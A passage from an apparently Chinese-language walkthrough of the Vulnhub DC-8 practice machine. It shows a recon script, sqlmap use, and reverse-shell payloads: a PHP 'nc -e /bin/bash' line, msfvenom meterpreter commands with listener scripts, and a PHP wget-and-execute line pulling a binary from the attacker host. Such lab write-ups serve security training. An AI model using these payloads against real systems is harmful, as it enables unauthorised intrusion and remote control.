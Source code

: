 # (Vulnhub练习)-- DC: 8渗透实战



## 下载地址

````
https://www.vulnhub.com/entry/dc-8,367/
````

## 扫描主机

```
netdiscover -i eth0 -r 192.168.100.0/24
```

## 目标主机IP：192.168.100.160

## 信息收集

>  信息收集的步骤基本上差不多,可根据工具简单写个shell脚本

```sh
#!/usr/bin/bash

ip=192.168.100.$1

ping -c2 $ip &>/dev/null  
if [ $? -eq 0 ] ; then 
		echo "$ip is up"
	else 
			echo "$ip is down"
			    exit
fi

masscan --rate=10000 --ports 0-65535 $ip 
masscan --rate=10000 --ports 0-65535 $ip 
nmap -A $ip
sleep 30
whatweb $ip 
sleep 10
dirsearch  -u  $ip 
sleep 5
nikto -h $ip 
sleep 5
dirb http://$ip 
```

> 我的网段在192.168.100.0/24  所以**ip**要改改

```
 /home/xiaoxiaoran/shell/xinxi.sh 160
```

### nmap端口扫描



### 指纹识别



### 路径扫描



## 开始测试

### 对22端口进行弱密码扫描

### sqlmap自动化执行


## nc反弹shell

### 代码

````php+HTML
<p>flag</p>
<?php system("nc -e /bin/bash 192.168.100.143 1234");?>
````

```
nc -nvlp 1234
```

### 效果



## msf php反弹shell

- msfvenom生成木马

```
msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.100.143 LPORT=8080
```

**php.rc文件**

```
use exploit/multi/handler
set payload php/meterpreter/reverse_tcp
set LHOST 192.168.100.143
set LPORT 8080
exploit
```

- 开启监听

```sh
 msfconsole  -qr /home/xiaoxiaoran/shell/php.rc       
```

- 把生成的文件复制




## msf linux反弹shell

- msfvenom生成木马

```
msfvenom -a x64 --platform linux -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.100.143 LPORT=4444 -b "\x00" -i 10 -f elf -o  /var/www/html/xiao3
```

**linux.rc文件**

```sh
use exploit/multi/handler
set payload linux/x64/meterpreter/reverse_tcp
set LHOST 192.168.100.143
set LPORT 4444
exploit
```

- 开启监听

```sh
msfconsole  -qr /home/xiaoxiaoran/shell/linux.rc  
```

- 改php代码



```
<p>flag</p>
<?php system("wget 192.168.100.143/xiao3 -O /tmp/xiao3;cd /tmp;chmod +x xiao3;./xiao3 &")?>
```

- 效果



##  提权
